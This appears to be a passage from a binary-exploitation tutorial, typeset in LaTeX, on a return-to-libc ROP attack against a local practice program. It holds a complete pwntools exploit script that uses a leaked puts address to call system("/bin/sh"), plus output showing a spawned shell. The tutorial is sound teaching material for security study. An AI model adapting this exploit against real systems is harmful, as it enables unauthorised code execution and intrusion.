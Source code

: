 \documentclass{article}
\begin{document}
\begin{lstlisting}
> strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 18cd17 /bin/sh
> 
\end{lstlisting}

This is everything we need in order to call \texttt{system("/bin/sh")}, as shown
by this program.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

PUTS_OFFSET   = 0x06f690
SYSTEM_OFFSET = 0x045390
BIN_SH_OFFSET = 0x18cd17

p = process("./use_leak")
p.readuntil("yours? ")
puts_leak = int(p.readline(), 16)
log.info("leaked puts address: 0x{:>8x}".format(puts_leak))
libc_base_address = puts_leak - PUTS_OFFSET
system_address    = libc_base_address + SYSTEM_OFFSET
bin_sh_address    = libc_base_address + BIN_SH_OFFSET
log.info("found libc base address: 0x{:>8x}".format(libc_base_address))
log.info("found system address: 0x{:>8x}".format(system_address))
log.info("found \"/bin/sh\" address: 0x{:>8x}".format(bin_sh_address))

rop = "A" * 40
# 0x0000000000400683 : pop rdi ; ret
rop += p64(0x400683) + p64(bin_sh_address)
rop += p64(system_address)

p.sendline(rop) 
p.interactive()
\end{lstlisting}

When run, the exploit spawns a shell.

\begin{lstlisting}
> ./use_leak_solution.py 
[+] Starting local process './use_leak': pid 4245
[*] leaked puts address: 0x7f17fbf09690
[*] found libc base address: 0x7f17fbe9a000
[*] found system address: 0x7f17fbedf390
[*] found "/bin/sh" address: 0x7f17fc026d17
[*] Switching to interactive mode
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$  
\end{lstlisting}

\subsubsection{Making a leak}
Programs don't typically leak the addresses of their libc functions for free.
In a real program, we would have to first find a bug that causes the program to
leak an address (without crashing), then find \emph{another} bug which allows us
to leverage that information and take control. Take a look at this program,
which will run with DEP/NX and ASLR enabled.
\end{document}
